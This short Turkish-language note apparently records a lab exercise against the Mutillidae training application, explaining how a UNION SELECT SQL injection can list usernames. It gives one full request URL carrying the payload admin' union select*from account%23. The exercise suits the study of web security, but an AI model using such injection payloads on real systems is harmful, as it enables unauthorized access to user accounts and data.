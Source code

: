# SQL Union Select Kodu
#### 1. Admin kullanıcı adını bilmiyorsak veya tüm kullanıcı isimlerini öğrenmek istiyorsak ```union select``` kullanabiliriz
#### 2. ```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=admin' union select*from account%23&password=123456&user-info-php-submit-button=View+Account+Details```
